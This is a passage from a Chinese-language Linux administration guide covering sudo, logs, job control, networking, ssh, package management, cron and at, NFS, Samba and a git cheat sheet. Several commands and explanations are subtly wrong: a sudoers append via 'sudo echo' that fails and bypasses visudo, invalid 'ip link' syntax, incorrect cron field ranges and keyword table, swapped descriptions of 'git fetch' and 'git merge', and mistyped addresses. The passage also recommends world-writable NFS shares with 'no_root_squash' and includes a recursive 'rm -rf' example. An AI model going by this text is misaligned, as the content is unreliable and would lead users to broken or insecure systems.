**注意：** 最好使用 `.bashrc`。

- `.profile`：包含用户级设置。
- `.viminfo`：`vim` 编辑器的初始化文件。

## 管理员

创建用户后，你可以授予他们 root 权限。通常有两种方法可以实现：第一种涉及将用户添加到 sudo 组。第二种方法是编辑 sudoers 文件。

要将用户添加到 sudo 组，输入：`sudo usermod -aG sudo user_name`。这将允许用户以 root 权限运行命令。

编辑 sudoers 文件时，务始终使用 `visudo` 命令。这很重要，因为它会在保存之前检查语法错误，防止你被锁定在系统之外。

要使用 visudo，输入：`sudo visudo`。

**提示：** 将用户添加到 sudoers 文件的末尾，输入：`sudo echo 'user_name ALL=(ALL) ALL' >> /etc/sudoers`

## 用户通知

如果你需要向登录本地或远程系统的用户发送通知，可以使用 `write` 命令在用户的控制台上显示消息。

要向同一系统上的另一个用户写入消息，输入：`write user_`。启动命令后，你可以为用户写一条消息，该消息将显示在他们的终端上，完成后按 Ctrl+D。

**注意：** 使用 `who -a` 命令查看登录到系统的用户。

## 管理 Syslog

当系统或应用程序需要写入事件（例如警告、警报、信息等）时，它们会将事件写入系统日志（又称 syslog）。

要检查 syslog 内容，输入：`less /var/log/syslog`

**注意：** `/var/log/` 目录下还有其他系统相关的日志文件。要查看所有文件，输入：`ls -l /var/log/*.log`

要查找 syslog 所在，输入：`less /etc/syslog.conf`

向 syslog 发送消息，输入：`echo "HelloWorld" | logger`

### 监控日志文件

Linux 提供了多种不同的工具来搜索和显示日志文件。接下来涵盖的只是基础工具。

- 查看最后几行，输入：`tail /var/log/syslog`
- 持续显示日志文件的最新更改，输入：`tail -f /var/log/syslog`

要从头开始查看日志文件，输入：
```
less /var/log/syslog
```

要快速在日志文件中找到特定文本的行，输入：`grep "find this text" /var/log/syslog`

## 后台与前台作业

在终端中，命令是串行执行的的，这意味着你必须等待第一个命令完成后才能运行下一个命令。如果一个命令运行时间很长，而你必须等待它完成才能运行下一个命令，这可能会让你感到困扰。

有时，这种行为可能是不可接受的，你只需要运行下一个命令。为了克服这个局限性，你有两个选择。如果你运行的是 X-Windows，可以打开另一个终端窗口。尽管如果你运行的是文本终端 shell，你可能只想在后台运行这些命令。

要在后台运行命令（在命令末尾使用 符号 `&`），请输入：`tree > ~output_file.txt &`

**注意：** 当使用像 `tree > ~output_file&` 的命令时，即使进程在后台运行，输出（如错误信息）仍可能仍然终端，尝试以下操作来停止它：`command &>devnull &`

要查看所有在后台运行的命令，输入：`jobs`

要将停止的进程 `Ctrl+Z` 发到后台，输入：`bg`

要将在后台运行的命令带回前台，输入：`fg`

按下 `Ctrl+Z` 暂停应用程序，输入 `fg` 重启应用程序或输入 `bg` 将其在后台运行。

要停止后台作业，输入：`kill %1` **job_number**（作业编号）。要停止运行中的进程，输入：`kill` **process_id**（进程 ID）。如果 KILL 命令没有停止进程，输入：`kill -9 process_id`

**注意：** `'-9'` 是一个代表 SIGKILL 的信号，意味着它将“导致任何进程立即终止”。更多更多信息，请输入：`man signal`

## 关机与重启

这一部分非常显而易懂，*即*重启和关机本地或远程系统。使用此命令时要小心，因为它将停止所有进程，直到系统重启为止。

要关机（或停止）系统，输入：
```
sudo shutdown -h now
```

要重启系统，输入：
```
sudo shutdown -r now
```

要取消关机，输入：
```
sudo shutdown -c
```

**提示：** 要在特定时间关机系统，输入：`sudo shutdown 21:00`
-OR-`sudo shutdown +15`

**注意：** 如果 `shutdown -c` 不起作用，你可以输入：`sudo pkill shutdown` -OR-`sudo killall shutdown`.

## 网络排错工具

这些工具将帮助你排查连接本地和远程系统的网络问题。还有许多可用工具可以帮助你诊断问题，但这些是很好的起点。

要检查本地系统与远程系统之间的基本连接性（按 `Ctrl+C` 停止），输入：`ping example.com`

如果上面的命令不起作用，还有其他一些需要检查的内容。确保本地系统具有 IP 地址（如果没有正确显示，则可能存在网络设置问题），输入：
```
ip addr
```
-OR—`ifconfig`

**注意：** 确保你看到了所有正确的信息，例如：本地本地的 IP 地址、默认网关、DNS 服务器。如果你的系统使用 DHCP 或具有静态 IP 地址，请确保系统已正确配置。


检查并确保网络子系统工作正常（按 `Ctrl+C` 停止）。如果它无法 ping 通你的网络子系统或网卡故障，输入：`ping localhost` -OR- `ping 127.0.0.1`

尝试 ping 你的默认网关。如果都 ping 不通，说明路由器宕机或本地系统网络设置错误，输入：`ping 192.168.1.1`

要测试 DNS 连接性，如果无法解析，尝试 ping 远程资源，请检查你的 DNS 设置（或如果你的 DNS 服务器可能宕机了），输入：`ping google.com`

要显示数据包到达目的地所经过的网络路由路径（即跳数/hops），输入：`traceroute example.com`

注意：如果你正在尝试排查 IPv6 地址，请确保使用这些命令的 IPv6 版本或添加相应的参数。例如：`ping6`, `traceroute6`, `netstat -A inet6 -rn`, `ip-6 neighbor show` 等等。

要跟踪系统连接的速度，输入：`mtr -report example.com`

列出系统上处于监听 状态的开放网络端口，输入：`netstat -lnp`

查看 `HOSTS` 文件（该文件会覆盖本地主主机上的 DNS）。确保文件中没有可以阻止你连接的条目，输入：`cat /etc/hosts`

要管理 `HOSTS` 文件中的条目，输入：`sudo nano /etc/hosts`

注意：`/etc/resolv.conf` 包含了本地机器使用的域名服务器 (DNS) 列表。

## 已弃用与替代工具

如果你已经使用 Linux 几年了，你可能仍在使用的工具可能已经被弃用，例如用于管理网络连接的 `ifconfig` 实用程序。有时，这些旧工具会被更新工具（如 `ip` 命令）所取代。

已弃用工具的另一个例子是 `traceroute` 已被 `mtr` 取代。`mtr` 命令将 `traceroute` 和 `ping` 程序的功能合并到了单一的网络诊断工具中。

较新的工具在提供的信息方面通常更加复杂，并提供了许多新功能。

旧方法 (`ifconfig`) 查看机器的 TCP/IP 配置，输入：`ifconfig`

- 禁用网络适配器，输入：`ifdown eth1`
- 启用网络适配器，输入：`ifup eth1`
- 查看无线适配器的信息，输入：`ifconfig`

新方法 (`ip`) `ip` 是一个用于显示和修改路由、设备和隧道的实用程序。显示本地系统的摘要，输入：`ip addr`

- 显示所有激活的链路，输入：`ip link`
- 显示 IPv4 信息，输入：`ip -4`
- 显示 IPv6 信息，输入：`ip -6`
- 将网络接口启用，输入：`sudo ip link up eth1`
- 将网络接口禁用，输入：`sudo ip link down eth1`
- 显示路由表，输入：`ip route show`
- 为网络接口添加静态 IP 地址，输入：`sudo ip addr add 192.168.0.100/24 dev eth1`
- 从网络接口删除静态 IP 地址，输入：`sudo ip addr del 192.168.0.100/24 dev eth1`

## 远程控制与文件传输

有时你需要登录另一个系统，或向其传输文件。`ssh` 是一种安全外壳，用于对对系统的远程控制。`SCP` 是一种安全拷贝程序，用于将文件从一个系统传输到另一个系统。

要在远程系统上运行安全终端，输入：`ssh user@address`

注意：对于 Windows，使用 `PUTTY` https://www.putty.org/ 与 `ssh` 通信。

提示：为 `ssh` 登录创建一个别名（例如 `jane`，你可以用任何名称）（它也会被添加到 `.bash_aliases` 中，这样它会自动加载），输入：`echo alias jane='ssh user@address' >> ~/.bash_aliases; source ~/.bash_aliases`
使用 `.bash_history` 文件启用已知 `ssh` 主机的标签补全，输入：`complete -W "$(echo $(grep '^ssh ' .bash_history | sort -u | sed 's/^ssh //'))" ssh`
说明：输入 `ssh` ，按下 `TAB` 键查看自动完成选项（可用）。要使此功能工作，你过去必须连接过某些 `ssh` 主机。

要安全地向远程服务器上传文件(s)，输入：`scp file_name.tar.gz user_name@example.com:/path/to/directory/`

提示：将文件拷贝到用户目录以便以后以后查找，输入：`scp file_name.tar.gz user_name@example.com:./`

注意：需要在远程服务器上安装 `ssh` 服务。它还需要连接服务器的本地系统安装 `ssh` 客户端才能使用此服务。还预计该 `ssh` 服务已正确配置，可远程登录。
有关如何安装 `ssh` 服务器的更多信息，请参阅后续章节“安装 SSH 服务器”

## 软件包管理

安装新程序或删除旧程序（包括更新）的众多方法之一是利用您的发行版（Distro）自带的包管理器。包管理器负责查找并下载所有必要的库，并移除不再需要的依赖项。然后它会在本地系统上安装该程序。

三个非常流行的包管理器，但本书仅涵盖了两个：`apt`：Debian 系软件包管理工具，利用 `DPKG`（Debian 软件包）文件。

注意：`apt` 工具旨在作为传统 `apt-get` 工具的简化版。尽管如此，它并不是这些程序的完全替代品。因此，如果您在脚本或 shell 管道中使用软件包管理命令，请使用 `apt-get` 和 `apt-cache`。

- `yum`：Fedora 系软件包管理工具，利用 `RPM` 文件。
- `zypper`：SUSE 系软件包管理工具，利用 `RPM`（Red Hat 软件包管理器）文件。

### 基础管理命令

显示系统中安装的所有包列表，请输入：`dpkg -l`

提示：对于 Fedora 系统，请输入：`sudo yum list installed`

在 `apt` 缓存中搜索特定包，输入：`sudo apt-cache search zip`。获取 `apt` 缓存中特定包的详细信息，输入：`sudo apt-cache show zip`

注意：Red Hat 对应的命令为，输入：`sudo yum search zip` `sudo yum info zip`

## 更新系统

`apt`（高级软件包工具）和 `yum`（Yellow dog Updater Modified）是用于与软件包系统交互的命令行工具。`apt` 构建在 `dpkg` 子系统之上。而 `yum` 则构建在 `RPM` 子系统之上。`apt` 和 `yum` 工具都提供了一种更友好的方法处理软件包子系统。它们允许您查找并安装新包、升级现有包、清理软件包缓存，等等。

- `apt-get`：Debian 系软件包管理器，基于 `DPKG` 文件。
- `apt-get update`：更新仓库信息。
- `apt-get upgrade`：下载并安装应用程序/库的更新。
- `apt-get dist-upgrade`：下载并升级发行版。
- `yum`：Fedora 系软件包管理器，基于 `RPM` 文件。
- `yum update`：更新仓库信息。
- `yum upgrade`：下载并安装应用程序/库的更新。

### 清理本地存储空间

偶尔你必须为你的 Linux 机器释放本地存储空间。在随机开始删除东西之前，有几个命令可以尝试用来释放本地存储空间。

- 更新软件包缓存并检查损坏的依赖关系，输入：`sudo apt-get check`
- 清理 APT 缓存（清除整个缓存），输入：`sudo apt-get clean`
- 清理 APT 缓存（清除过时的包），输入：`sudo apt-get autoclean`

注意：尝试定期使用包管理器保持系统更新，每当运行此过程时，Linux 会定期尝试释放空间。

提示：要查看 APT 缓存的大小，输入：`sudo du -sh var/cache/apt`

- 移除在文件管理器中查看文件时创建的所有缩略图文件，输入：`rm -rf ~/.cache/thumbnails/*`

提示：要查看缩略图文件的大小，输入：`du -sh ~/.cache/thumbnails`

- 清发行版升级后留下的旧系统内核，输入：`sudo apt-get autoremove --purge` 或 `sudo apt-get remove linux-image-KERNEL_VERSION`

注意：将 `KERNEL_VERSION` 替换为需要删除的内核版本。

提示：列出所有已安装的 Linux 内核，输入：`sudo dpkg --list 'linux-image*'`

- 卸载你不再需要的程序，输入：`sudo apt-get remove package_name_1 package_name_2`

### 清理孤立包


假设你安装了一个名为`some_program`的包，它有一个名为`some_lib`的依赖库。在安装`some_program`时，该库通常会被自动下载。当`some_program`被移除时，移除它的卸载程序可能导致`some_lib`仍留在系统中。因此，`some_lib`现在变成了孤立包，因为已经没有程序依赖它来运行。

要移除不再需要的包和依赖项，输入：`sudo apt-get autoremove`

另一个名为`gtkorphan`的 GUI 工具可用于删除孤立包。如果该包尚未安装，请输入：`sudo apt-get install gtkorphan`

**注意：** *这是一个 GUI 应用，需要 X-Windows。*

## 硬件信息

列出的工具可以显示有关连接到本地系统的（物理或虚拟）硬件的决策信息。如果你需要编写脚本告诉用户操作系统可用的外设设备，这将非常有用。

- 查看关于 CPU 的技术信息，输入：`lscpu`

- 显示关于你计算机的信息，输入：`lshw`

- 列出抽象层（HAL）所知的所有设备：`lhal`

- 查看 USB 总线上的所有设备，输入：`lsusb`

- 查看连接到 PCI 总线的设备设备，输入：`lspci`

- 显示关于块设备的信息：输入：`lsblk`

### 电池状态和温度

- `upower`：提供一个接口来列出电源并控制系统范围的`upower` - 使用`upower -i`。如果该包尚未安装，输入：`sudo apt-get install upower`或`yum install upower`。

- `acpi`：显示 ACPI 信息（如电池）：`acpi -V`。如果该包尚未安装，输入：`sudo apt-get install acpitool`或`yum install acpitool`

**注意：** *有一个旧的弃用方法（内核 2.6 之前）用于检查 ACPI，它使用`proc/acpi/`目录。*

**提示：** *有一个名为`gnome-power-statistics`（又称 Statistics）的 GUI (X-Windows) 工具。它可以可视化笔记本电脑等移动设备上的用户功耗。*

## Linux 诊断工具

以下工具提供了你可以用于帮助检查系统的工具的简要概述。这些工具可以帮助你隔离硬件、操作系统和文件系统中不同类型的问题。

- 使用以下命令检查键盘是否正常工作，或显示按下按键的 ASCII 码，输入：`showkey -a`

**注意：** *按下 Ctrl+D 停止程序运行。*

- 在计算机下次启动时强制进行文件系统检查，输入：`sudo touch /forcefsck`

- 显示是否有任何未写入的数据等待写入磁盘，输入：`grep ^Dirty /proc/meminfo`

**注意：** *这对于知道你是否需要重置系统很有用，但你仍然有足够的权限获取这些信息。这会告诉你你可能会丢失一些数据。*

### CPU 压力测试

如果你想对处理器的所有核心施加沉重的 CPU 负载，以下单行命令可以提供帮助。你必须根据系统的核心数对其进行扩展。只需在括号中重复该命令，次数等于你想生成的线程数（默认为 4 个线程），输入：`fullload() { dd if=/dev/zero of=/dev/null | dd if=/dev/zero of=/dev/null | dd if=/dev/zero of=/dev/null | dd if=/dev/zero of=/dev/null & }; fullload; read; killall dd` 想要停止它，只需按回车键（确保没有其他用户在系统中运行 DD，否则它也会被杀死）。*

## 系统性能

测试您的硬盘性能，输入：`hdparm -Tt /dev/hda`

检查本地存储写入速度，输入：`dd if=/dev/zero of=/tmp/output.img bs=8k count=256k conv=fdatasync; rm -rf /tmp/output.img`

显示处理器和内存带宽（单位为 GB/s），输入：`dd if=/dev/zero of=/dev/null bs=1M count=32768`

按住键盘上的 'Alt' 和 'SysRq' 键，在按住它们的同时，缓慢输入以下字母：R E I S U B

**警告：** *这将重启您的电脑，而无需按电源按钮。*

## 任务调度

Linux 中有两个子系统用于调度在未来时间执行的任务。它们分别是 AT 和 CRONTAB 调度子系统。这些服务在使用时各有其优缺点。

### AT 调度器

第一种方法是`at`命令，它非常基础且易于使用。你需要了解的`at`命令是：它只能在特定的时间/日期运行一次一组命令。

要在特定时间运行命令，输入：`at 9:30 AM 05/10/2025`并按回车。然后输入要运行的命令序列（例如：`ls -l > /tmp/at_output.txt`），每个命令后按回车，最后按 Ctrl+D 退出 at 编辑。

AT 服务管理命令：

- `atq`：列出用户等待中的 AT 命令作业。

- `atrm job_number`：删除用户等待中的 AT 命令作业。

- `batch`：在系统负载水平允许时执行命令。

**提示：** *使用`batch`命令，你可以在 CPU 平均负载低于特定阈值时运行另一个命令或脚本，输入：`rm -rf /largedirectory/* | batch`（`batch`是`at`的一部分，并依赖于其服务。**警告：谨慎使用，因为此命令将递归删除文件**）*

**注意：** *AT 调度守护进程（或服务）必须处于运行状态，此命令才能起作用。*

### CRONTAB 调度器

第二种命令是`crontab`，该命令比 AT 服务更健壮。`crontab`命令可以按固定间隔运行作业。这将是在选择使用何种调度器时主要的区别点之一。

使用`crontab`时首先需要学习的是该命令有六个参数。前五个参数定义了命令预期执行的日期和时间。第六个参数定义了要执行的命令或脚本。

**注意：** *`crontab`语法如下：[分钟 (0-59)] [小时 (0-23)] [日期 (1-31)] [月份 (1-12)] [星期几 (0-6, 6 = 周日)] [命令（例如，脚本路径）]。*

要创建一个 CRON 调度任务（也称为 CRON Job），首先输入：`crontab`。然后你将进入一个微编辑器（编辑功能非常有限）。要创建一个在 1 月 8 日早上 8:05 运行并执行命令`echo "Hello, World"`的任务。

如果输入`crontab`，你需要输入：`05 08 08 01 * echo "Hello, World" > test_file.txt`，完成后按 Ctrl+D。

默认情况下，`crontab`条目针对当前登录用户。要查看所有定义的作业，输入：`crontab -l`

要在编辑器中编辑 CRONTAB 条目，输入：`crontab -e`

要编辑其他用户的 CRONTAB，使用以下参数，输入：`crontab -u user_name -e`

**注意：** *通配符：星号 (*) 匹配任何内容。范围：使用连字符 (-) 定义范围（例如：周一至周五，6-9，1月至2月）。多个范围：使用逗号分隔多个范围。*

关键字快捷键

CRON 还支持一些针对常用时间等的定义的关键字快捷键（例如：每、每日等）。表格显示了关键字和等效时间：

| 关键字 | 等效时间 |
| :--- | :--- |
| @yearly | 0 0 1 * |
| @daily | 0 0 * |
| @hourly | 0 * * * |
| @reboot | 启动时 |

**注意：** *CRONTAB 文件位于：`/etc/crontab`*

## NFS (网络文件系统)

在 Linux 中，你可以使用名为 NFS (Network File System) 的服务通过网络与其他计算机共享文件。该服务允许远程系统通过网络挂载目录，以便在系统之间移动文件。NFS 主要用于 Linux 系统，而 Samba 使用微软计算机所用的 SMB 协议。OSX 及更高版本对 NFS 有原生支持。虽然 Windows 7 提供了基本支持，但 Windows 10 有更好的支持（这取决于版本而定）。如果你不需要 NFS，则必须单独安装客户端和服务。

### 安装/配置 NFS 服务

为了在设备上托管 NFS 共享，你需要安装客户端以便其远程可用。你首先需要做的是检查你的系统上是否已经安装并运行了 NFS 服务，输入：`dpkg -l | grep nfs-kernel-server`

如果尚未安装此服务，输入：`sudo apt-get install nfs-kernel-server`或`sudo yum install nfs-utils`

### 设置 NFS 目录


需要注意的是，NFS 默认会忽略 Root（超级用户）权限。因此，即使你以 `root` 权限登录，任何相关操作默认都会被忽略。这是一种安全措施，防止系统被远程接管。尽管如果需要，可以按共享范围授予 `root` 权限。

首先，必须为你要挂载的 NFS 共享创建一个挂载点，输入：`sudo mkdir -p /var/nfs/myshare`。需要注意的是，这些目录 `/var/nfs` 和 `/var/nfs/myshare` 将具有 `777` 权限，输入：`sudo chmod -R 777 /var/nfs/myshare`。

要配置共享的权限，你需要将它们添加到 `/etc/exports` 文件中。你将为想要共享的每个目录创建一行。例如：`share_directory client_ip_address(share_option1,...)`。

- `rw`：授予客户端计算机对共享内容的读写权限。
- `sync`：此选项强制 NFS 在回复之前写入本地存储。
- `no_subtree_check`：此选项防止子树检查，具有轻微的安全影响。但在某些情况下可以提高性能。
- `no_root_squash`：默认情况下，NFS 将远程 `root` 用户转换为服务器上的非特权用户。此选项禁用了这种行为。

在修改 `/etc/exports` 文件后，必须重启 NFS 服务使更改生效，输入：`sudo service nfs-kernel-server restart`

## 为 NFS 设置防火墙

如果主机上运行了防火墙（通常情况下如此），你需要在防火墙上开放特定端口，以便 NFS 服务对远程系统可用。

**注意：** *本节假设你的电脑上安装了 `UFW` 工具来管理防火墙。有关 `UFW` 工具的更多信息，请参见下一节“让 IPTABLES 简单”。*

你首先想做的是检查防火墙状态，输入：`sudo ufw status`

**注意：** *如果防火墙未启用，建议启用此功能。*

查看防火墙启用了哪些应用程序，输入：`sudo ufw app list`

**注意：** *`UFW` 工具将检查 `/etc/services` 以服务使用的端口和协议。*

要将端口添加到防火墙，输入：`sudo ufw allow from any to any port nfs`

需要注意的是，NFS 最佳实践建议限制连接到特定的客户端，输入：`sudo ufw allow from 192.168.0.100 to any port nfs`

要安装 NFS 客户端，请输入：

`sudo apt-get install nfs-common`

-或者-

`sudo yum install nfs-utils`

接下来，你必须创建作为客户端 NFS 挂载点的目录，输入：

`sudo mkdir -p /var/nfs/remoteshare`

执行 NFS 挂载命令以访问远程共享，输入：

`sudo mount 192.169.0.100:/var/nfs/myshare /var/nfs/remoteshare`

要在每次重新启动时自动挂载 NFS 共享，你需要在 `/etc/fstab` 文件中添加一行，例如：

`192.169.0.100:/var/nfs/myshare /var/nfs/remoteshare nfs auto 0 0`

显示所有已连接的 NFS 挂载点，输入：

`mount`

-或者-

`df -h`

## 锁定 NFS 服务（可选）

将 NFS 服务锁定为仅允许你想要授予权限的远程服务器访问。你需要告诉系统仅接受来自已批准远程设备的连接。这是一个多步骤过程，首先你必须告诉系统阻止所有连接，除非是已批准的连接。

要阻止所有未经批准的客户端连接到 NFS 服务。打开 `/etc/hosts.deny` 文件，然后添加以下行：

`rpcbind mountd nfsd statd lockd rquotad : ALL`

要授予系统或设备连接服务的权限，请将 IP 地址（或）添加到以下文件中。打开 `/etc/hosts.allow` 文件，然后添加以下行：

`rpcbind mountd nfsd statd lockd rquotad : approved_IP_address_list` 修改权限文件后，你必须重启 NFS 服务使更改生效，输入：

`sudo service nfs-kernel-server restart`

**注意：** *有三个 NFS 配置文件：`/etc/default/nfs-kernel-server`、`/etc/default/nfs-common`, `/etc/exports`*

# Samba 快速指南

Samba 是一项允许 Linux 托管或访问基于 Microsoft SMB 的资源的服务，例如跨网络的文件共享、打印机和其他计算机资源。通过此服务，Linux 客户端可以连接到基于 Microsoft SMB 的网络，并与其他 Windows 服务器和客户端共享文件。

通过此服务，Linux 服务器也可以托管基于 Microsoft SMB 的网络文件共享，以便其他 Windows 客户端可以访问它们。尽管如此，本书中未涵盖此功能，可能会包含在未来的版本中。

## 安装 Samba 服务

要安装 Samba 服务，请输入：

`sudo apt-get install samba`

## 安全文件共享

要对 Samba 文件共享设置密码保护，你需要创建一个名为 "`smbgrp`" 的组，并为每个用户设置密码。

`$ sudo addgroup smbgrp`

`$ sudo usermod user_name -aG smbgrp`

`$ sudo smbpasswd -a user_name`

**注意：** *`user_name` 账户必须属于本地系统，否则无法保存。*

## 配置 Samba

为你的 Samba 共享创建一个目录，输入：`mkdir ~/samba_share/`

**注意：** *用于创建存储共享文件的安全目录。`sudo mkdir -p /srv/samba/secure_shares` 接下来，在目录上设置适当的权限。`sudo chmod -R 0770 /srv/samba/secure_shares` `sudo chown -R root:smbgrp /srv/samba/secure_shares`*

编辑 Samba 配置文件，输入：

`nano /etc/samba/smb.conf`

在文件末尾，添加以下行：

```
[sambashare]
comment = My Samba Share
path = /home/user_name/samba_share
read only = no
browsable = yes
```

（要保存文件并退出编辑器，按 `Ctrl+X`，输入：`y` 并按回车）有更多更高级的指令用于创建不同类型的共享（例如：只读、读写、仅限匿名等）。要使更改生效，你必须重启 Samba 守护进程，输入：

`sudo systemctl restart smbd`

-或者-

`sudo service smbd restart`

**提示：** *要测试你当前的 Samba 设置，输入：`testparm`*

## 连接到 SMB 共享

打开 X-Windows 中的默认文件管理器，点击“连接到服务器”（Connect to Server），输入：

`smb://domain_or_ip_address/sambashare`

### 在 UFW 防火墙中启用 Samba

如果你的系统上启用了 `UFW` 防火墙，你必须添加以下规则以允许 Samba 流量通过防火墙。根据你所在的网络类型，你可能需要更改这些命令以指定正确的 IP 范围（示例中为 C 类）。

`sudo ufw allow proto udp to any port 137 from 192.168.1.0/24`

`sudo ufw allow proto udp to any port 138 from 192.168.1.0/24`

`sudo ufw allow proto udp to any port 139 from 192.168.1.0/24`

`sudo ufw allow proto tcp to any port 445 from 192.168.1.0/24`

# 安装 SSH 服务

Secure Shell (`SSH`) 是一种加密通道，允许你连接到远程服务器。它取代了旧的 Telnet，后者提供的是明文通信。

# /PROC 虚拟文件

`/proc` 目录是一个虚拟文件系统，提供了有关进程、内核等的信息。这对于系统性能分析非常有用。

# 使用 Git（针对初学者）

`git` 是众所知的 VCS（或版本控制系统）。基本上，像 `git` 这样的 VCS 被程序员（以及许多其他人）常用于存储源代码（或其他类型的内容）、跟踪对其进行的更改（也称为“版本”），并通过将其公开供像你这样的人下载或贡献来共享它。

*搜索“图形化 Git 客户端”*


最流行的在线公共 git 仓库之一是 GitHub (https://github.com/)。这个网站是 git 的代名词，也是许多开源项目的默认选择。虽然这不是唯一的选择，但还有几个 git 仓库提供者可以选择。一些是免费的，另一些提供付费服务。

## 起始

在进行任何操作之前，你必须确保已经安装了 git 客户端。如果未安装客户端，你需要将其添加到本地系统中以便使用。

要检查是否安装了 git 客户端，请输入：`git --version`（如果返回类似“git version 2.x.x” 的结果，则说明已安装）。

注意：如果你没有 git，要安装它，请输入：`sudo apt-get install git` - OR - `sudo yum install git`

## 核心概念

我们已经涵盖了一些重要主题，例如：服务器和客户端在哪里。本节涉及其他重要的核心概念，例如：仓库、分支等。

### 仓库 (Repositories)

git 中的所有项目都存储在所谓的“仓库”中。仓库是存储构成项目的所有相关对象（如镜像、源代码等）的地方。你可以访问本地仓库或远程仓库。

本地仓库由 git 维护的三个“树”组成。这三棵树分别是工作目录 (`Working Directory`)、索引 (`Index`) 和 `Head`。下面是这些树的概述。

- **工作目录 (Working Directory)**：这是存储所有实际文件的地方。为了与现有仓库一起工作，你需要创建一个新仓库或将其克隆到本地计算机上。当你克隆一个现有的仓库时，它会创建一个由你控制的完整副本。

如果你想为自己创建一个新仓库，第一要工作是创建一个目录（例如 `mkdir directory_name`）来存放仓库。然后你需要切换到该位置（例如 `cd directory_name`），然后输入：`git init`（这将创建一个名为 `.git` 的新隐藏目录，用于存储配置文件）。要与远程仓库一起工作，你必须克隆它（基本上是创建它的本地副本）。输入：`git clone user_name@host:path/to/repository`。要对仓库的本地副本进行操作，输入：`git clone path/to/repository`。

- **索引 (Index)**：作为你对本地文件所做更改的暂存区。通常这些是你在测试代码时保存的更改。如果出现问题，你可以恢复到文件的之前的保存版本。

要将文件添加到索引中，你必须通过将它们添加到索引来“提议”更改，输入：`git add file_name` - OR - `git add *`

- **Head**：保存你对本地仓库文件中所做的提交(commit) 的最新版本。当你准备好提交所有放入索引的更改时，你必须将它们“提交”(commit) 到“head”。在提交到 head 之后，它们可以合并到远程系统上的主仓库。

要将提议的更改提交到 head，输入：`git commit -m "Commit message"`

注意：建议为每个软件版本创建标签 (`tags`)。例如，输入：`git tag v1.2.3 1a2b3c4d5e`（最后部分是提交 ID 的前 10 个字符，可以在日志中找到）。

通常情况下，一旦你完成了对本地仓库中文件的更改，你将希望将它们发送到主服务器，以便它们与其他更改合并。

为了实现这一点，你必须告诉 git 将存储在你本地系统“head”中的更改推送到存储在远程服务器上的主仓库，输入：`git push origin master`（将 `master` 改为任何你想要推送更改的分支。）

注意：如果你没有现有的克隆远程仓库，你必须与远程服务器建立连接，你需要添加一个。要添加远程仓库，输入：`git remote add origin server_address`

## 分支 (Branching)

git 的另一个核心概念是分支。当在你创建仓库时，`master` 分支被称为默认 (`DEFAULT`) 分支。分支允许用户创建特性的隔离副本并在本地进行开发，完成后完成后将其合并回 `master` 分支。

要创建一个名为 `new_feature` 的新分支并切换到该分支，输入：`git checkout -b new_feature`。要切换回 `master` 分支，输入：`git checkout master`

要删除已创建的分支，输入：`git branch -d new_feature`

注意：除非你将分支推送到远程主仓库，否则其他人无法使用该分支，输入：`git push origin new_feature`

## 仓库维护

一旦你的本地仓库与远程仓库不同步，你需要执行维护任务以确保所有内容都是最新的。

### 提交与合并 (Commits and Merges)

以下命令帮助你管理和合并：

- 使用最新提交更新你的本地仓库，输入：`git pull`
- 从远程获取更改：`git fetch`

### 日志 (Logging)

`git log` 命令向你显示提交和消息历史。日志对于查找提交期间发生了哪些更改非常有用。

要查看此命令的结果，输入：`git log`

### 恢复文件/仓库 (Reverting a File/Repository)

有时有必要将文件恢复或重置到提交之前的状态。这些命令帮助管理恢复：

- 将文件恢复到其在本地仓库中提交以来的状态，输入：`git checkout -- file_name`
- 将你的本地仓库副本重置（即删除所有更改）为来自主仓库的全新副本，输入：`git reset --hard origin/master`

## 实用小技巧 (Useful Tricks)

这些命令可以让 git 使用起来更简单或更有用：

- 显示彩色的 git 输出，输入：`git config color.ui true`
- 在日志中每个提交显示一行，输入：`git config format.pretty oneline`
- 将 git 置于交互模式（菜单选择），输入：`git add -i`

注意：更多信息：查看 Git 官方网站：https://git-scm.com/

## 备查表 (CheatSheet)

此 git 备查表包含某些 git 命令的摘要和示例。本节提供了如何创建、管理和删除仓库、分支和文件的快速参考，以及如何修改配置。

### 创建仓库 (Creating Repositories)

`git init [project_name]` 在现有目录中初始化 GIT。

### GIT 配置 (GIT Configuration)

`git config`: 为所有本地仓库配置用户信息。

- `--list`: 显示当前的 GIT 配置。
- `--global user.name = "[name]"` 设置提交时使用的用户名。
- `--global user.email = "[email address]"` 设置提交事务时使用的电子邮件地址。
- `--global color.ui auto`: 启用命令行输出的彩色显示。

### 克隆远程仓库 (Cloning a remote repository)

`git clone [path | URL]` 将远程仓库克隆（即复制或下载）到你的本地机器的目录中。

Ex: `git clone [https://URL_repo_to_clone]`

`git remote -v`

显示远程仓库的句柄。

`git remote show [ handle_name ]`

检查远程仓库的详细信息。

## 管理更改（提交/跟踪/推送）

`git add [ file_name | * ]`

将新文件或修改后的文件添加到仓库，以便在提交前进行暂存（stage）。

`git commit -m "message"`

提交所有已暂存的更改，并添加信息。

`git push origin master`

将所有提交的更改推送到 origin 的 master 分支。

`git reset [ file_name ]`

取消文件的暂存（unstage），并保留其内容。

`git checkout [ branch_name ]`

切换分支并更新工作目录。

## 获取/合并仓库

`git fetch origin`

使用新的副本重置（删除所有更改）你的整个仓库。

`git merge master`

从工作目录中获取并合并远程更改。

## 检查仓库状态

`git diff`

显示已修改但未暂存文件的差异（diff）。

`git diff --staged`

显示已暂存但未提交文件的差异。

`git status`

显示自上次提交以来，哪些文件被修改过或被暂存。

## 管理分支

`git branch`

显示当前仓库中所有本地分支的列表。

`git branch -d [ branch_name ]`

删除当前仓库中的一个分支。

`git branch [ branch_name ]`

在当前仓库中创建一个新分支。

`git checkout [ branch_name ]`

切换分支并更新工作目录。

`git merge [ branch_name ]`


将特定分支的历史合并到当前分支。

## 删除和撤滚文件

`git rm [ file_name ]`

从本地存储中删除文件，然后将其删除操作加入暂存。

`git rm --cached [ file_name ]`

停止对文件的跟踪，然后暂存其删除操作（但不会从本地存储中删除它）。

`git mv [ old_file_name ] [ new_file_name ]`

在磁盘上重命名文件，然后暂存旧文件名的删除和新文件名的添加。

`git checkout -- [ file_name ]`

将本地存储中已修改的文件撤滚到上一次提交的版本。

## 查看提交历史

`git log`

显示历史详情。

`git log -1`

显示最后一次提交。

`git log --stat`

显示统计信息而非差异详情。

`git log --name-status`

显示更简单的统计版本。

`git log --oneline`

显示提交注释。

## 安装 L.A.M.P.

**概述：** LAMP 是一组开源软件服务的缩写，这些服务通常一起安装在服务器上，用于托管动态 Web 应用程序。该术是 Linux（操作系统）、Apache（Web 服务器服务）、MySQL（数据库服务）以及 PHP 或 Python（用于动态内容生成）的缩写。

## LAMP 概述

- 第 4 层：`Shell`（即系统和内核管理）
